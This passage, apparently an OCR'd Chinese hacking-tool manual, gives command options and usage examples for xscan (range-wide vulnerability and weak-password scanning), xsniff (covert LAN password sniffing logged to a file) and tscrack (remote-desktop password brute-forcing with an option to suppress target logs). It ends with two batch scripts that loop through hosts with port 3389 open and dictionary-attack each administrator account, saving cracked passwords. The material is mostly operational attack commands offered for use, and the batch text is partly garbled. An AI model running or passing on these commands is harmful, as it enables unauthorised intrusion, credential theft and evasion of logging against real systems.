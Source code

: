 其它选项
　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
　　-l 显示所有网络适配器
　　-v 显示详细扫描进度
　　-p 跳过没有响应的主机
　　-o 跳过没有检测到开放端口的主机
　　-t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
　　-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
用法示例
xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
九：
命令行方式嗅探器: xsniff.exe
可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
参数说明
　　-tcp 输出TCP数据报
　　-udp 输出UDP数据报
　　-icmp 输出ICMP数据报
　　-pass 过滤密码信息
　　-hide 后台运行
　　-host 解析主机名
　　-addr IP地址 过滤IP地址
　　-port 端口 过滤端口
　　-log 文件名 将输出保存到文件
　　-asc 以ASCII形式输出
　　-hex 以16进制形式输出
用法示例
xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
终端服务密码破解: tscrack.exe
参数说明
　　-h 显示使用帮助
　　-v 显示版本信息
　　-s 在屏幕上打出解密能力
　　-b 密码错误时发出的声音
　　-t 同是发出多个连接（多线程）
　　-N Prevent System Log entries on targeted server
　　-U 卸载移除tscrack组件
　　-f 使用－f后面的密码
　　-F 间隔时间（频率）
　　-l 使用－l后面的用户名
　　-w 使用－w后面的密码字典
　　-p 使用－p后面的密码
　　-D 登录主页面
用法示例
tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
nscan
　　@echo 3389.txt no find or scan faild
　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
其它